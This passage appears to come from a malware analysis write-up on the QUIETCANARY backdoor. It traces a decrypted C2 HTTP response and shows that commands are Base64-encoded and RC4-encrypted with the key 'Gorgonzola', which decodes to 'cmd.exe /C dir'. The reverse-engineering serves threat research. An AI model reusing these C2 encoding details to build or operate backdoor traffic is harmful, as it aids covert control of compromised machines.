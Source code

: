 It's function is very likely to add some noise to the SSL encrypted traffic to make it more difficult to 'guess' what is happening based on the size of HTTPS requests.  

--- 

Now that we have established a trusted relationship with QUIETCANARY we can start sending some commands among the following :  

![Alt text](screenshots/orders.jpg?raw=true "Available commands")

Notice the 666 code associated with the "KillCommand", TURLA developpers were kind enough to refrain from using Order 66 which would have been a much violent crime...

---  

I've decided to test a simple 'dir' command :  

```html
[ * ] [pid 0x784][tid 0x790] c:\users\user\desktop\quiet_canary\canary.exe
[API] <DecryptMessage>
[PAR] PSecBufferDesc pMessage     : 0x0000000400000000
[FLD]                -> ulVersion = 0x0 (SECBUFFER_VERSION)
[FLD]                -> cBuffers  = 0x4
[FLD]                -> pBuffers  = 0x000000264197B208
[FLD]                   -> pBuffers[0]
[FLD]                   -> cbBuffer   = 0x5
[FLD]                   -> BufferType = 0x7 (SECBUFFER_STREAM_HEADER)
[FLD]                   -> pvBuffer   = 0x000000264195BE90
[FLD]                   -> pBuffers[1]
[FLD]                   -> cbBuffer   = 0xbc
[FLD]                   -> BufferType = 0x1 (SECBUFFER_DATA)
[FLD]                   -> pvBuffer   = 0x000000264195BE95
[STR]                   -> "HTTP/1.1 200 OK\r\nDate: Fri, 07 Mar 2025 16:41:50 GMT\r\nServer: Apache/2.4.41 (Ubuntu)\r\nContent-Length: 40\r\nConten"
[STR]                      "t-Type: text/html; charset=UTF-8\r\n\r\n3XLuSjRx6Y17ZlS329KMj8TLT011LuYhr18VgAhO"
[FLD]                   -> pBuffers[2]
[FLD]                   -> cbBuffer   = 0x24
[FLD]                   -> BufferType = 0x6 (SECBUFFER_STREAM_TRAILER)
[FLD]                   -> pvBuffer   = 0x000000264195BF51
[FLD]                   -> pBuffers[3]
[FLD]                   -> cbBuffer   = 0x0
[FLD]                   -> BufferType = 0x0 (SECBUFFER_EMPTY)
[FLD]                   -> pvBuffer   = 0x0000000000000000
[RES] SECURITY_STATUS 0x0 (SEC_E_OK)
```

So :  

```
RC4(Base64_Decode(3XLuSjRx6Y17ZlS329KMj8TLT011LuYhr18VgAhO), "Gorgonzola")  
```

```
"peri43s220l16c"cmd.exe" /C dir"
```
